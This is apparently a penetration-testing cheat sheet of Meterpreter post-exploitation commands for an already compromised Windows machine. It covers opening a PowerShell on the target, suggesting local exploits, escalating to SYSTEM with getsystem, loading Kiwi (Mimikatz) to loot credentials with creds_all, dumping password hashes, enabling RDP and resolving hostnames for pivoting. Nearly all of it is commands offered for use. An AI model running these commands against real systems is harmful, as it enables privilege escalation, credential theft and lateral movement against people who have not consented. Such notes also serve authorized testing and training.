

Required: Established Meterpreter Session
Meterpterter Commands to Interact with Powershell:
load powershell : Loads the powershell extention of meterpreter
powershell_shell : Starts a powershell in the target machine.
For Windows Privilege Escalation
run post/multi/recon/local_exploit_suggester
Show Privileges
getprivs
Try to Escalate User to System
getsystem
Load Mimikatz to loot
(Kiwi is the updated version of Mimikatz)
load kiwi
help
To Loot Credentials
creds_all
Dump all the Hashes
hashdump
Enable RDP
run post/windows/manage/enable_rdp
Upgrade Normal Sessions into Meterpreter Session
sessions -u <id>
eg.
sessions -u -1
Resolving Hostnames in a victim machine for further attack/pivoting
resolve <HOSTNAME>
